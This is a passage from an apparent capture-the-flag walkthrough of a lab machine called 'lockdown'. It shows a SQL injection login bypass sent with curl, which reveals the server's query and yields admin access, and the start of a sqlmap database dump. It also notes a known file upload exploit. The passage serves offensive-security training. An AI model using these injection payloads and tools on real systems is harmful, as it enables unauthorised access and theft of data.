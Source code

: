 ```js
// System Info
        $('#system-frm').submit(function(e){
                e.preventDefault()
                start_loader()
                if($('.err_msg').length > 0)
                        $('.err_msg').remove()
                $.ajax({
                        url:_base_url_+'classes/SystemSettings.php?f=update_settings',
                        data: new FormData($(this)[0]),
                        ...snip...
```

Google searching the `SystemSettings.php?f=update_settings` endpoint returns [exploit-db results](https://www.exploit-db.com/exploits/49604) that appear to confirm a file upload vulnerability in the application (normally we would have used these scripts but I was unable to get shells uploaded using them to connect back, even with authentication).

## 2. Admin panel - sqli

Returning to the admin panel at `/admin/login.php`, we monitor the failed login requests and notice that the failure response includes the query made by the server in processing the request :

```console
┌──(kali㉿kali)-[~/Documents/tthm/lockdown]
└─$ curl -X POST -d 'password=aaaa&username=aaaa' $IP/classes/Login.php?f=login
{"status":"incorrect","last_qry":"SELECT * from users where username = 'aaaa' and password = md5('aaaa') "}
```

So obviously this looks injectable - we repeat the request with an injection attempt on username :

```console
┌──(kali㉿kali)-[~/Documents/tthm/lockdown]
└─$ curl -X POST -d "password=aaaa&username=' OR 1=1-- -'" $IP/classes/Login.php?f=login
{"status":"success"}
```

and we are connected as admin. From here, we have two options - we can use sqlmap to attempt to dump the application database, and we can revisit the file upload vulnerability with an authenticated account. Let's start with the db dump.

## 3. DB dump and credential discovery - sqlmap

To help sqlmap along, we first capture a failed login request with burp, save the request as `req.txt` and pass it to sqlmap using the `-r` flag : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/lockdown]
└─$ sqlmap -r req.txt --batch --dbs
...snip... (lots of ...snip...)
[12:09:50] [INFO] retrieved: cts_db
available databases [2]:
[*] cts_db
[*] information_schema
```
